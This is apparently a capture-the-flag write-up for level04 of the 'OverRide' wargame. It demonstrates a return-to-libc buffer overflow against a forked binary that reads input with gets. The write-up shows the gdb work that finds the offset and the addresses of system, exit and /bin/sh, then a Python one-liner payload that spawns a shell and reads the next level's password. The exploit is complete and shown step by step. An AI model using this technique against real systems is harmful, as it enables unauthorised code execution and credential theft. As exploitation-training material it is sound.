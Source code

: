 This time, we will use a return-to-libc attack.

To do this, we will use `gets` as it is unprotected to overwrite the return pointer. The only drawback is that `gets` is in a fork. Therefore, we will add tracking of the fork processes in `gdb`.

```Shell
level04@OverRide:~$ gdb level04
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

^C
Program received signal SIGINT, Interrupt.
0xf7fdb440 in __kernel_vsyscall ()
(gdb) set follow-fork-mode child
(gdb) r

Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1749]
0x41326641 in ?? ()
```

Using [Wiresmask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) we found an offset of **156**

Now we will search the 3 addresses needed for the ret-2-libc

Address of `system` :

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

Address of `exit` :

```
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

Address of the `/bin/sh` string:

```
(gdb) find &system, +99999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

Transform in little endian we have :
For `system` : `\xd0\xae\xe6\xf7`
For `exit` : `\x70\xeb\xe5\xf7`
For `/bin/sh` : `\xec\x97\xf8\xf7`

Using these address we can craft our exploit, that give us :

```Shell
python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" > /tmp/payload
```

```Shell
level04@OverRide:~$ cat /tmp/payload - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
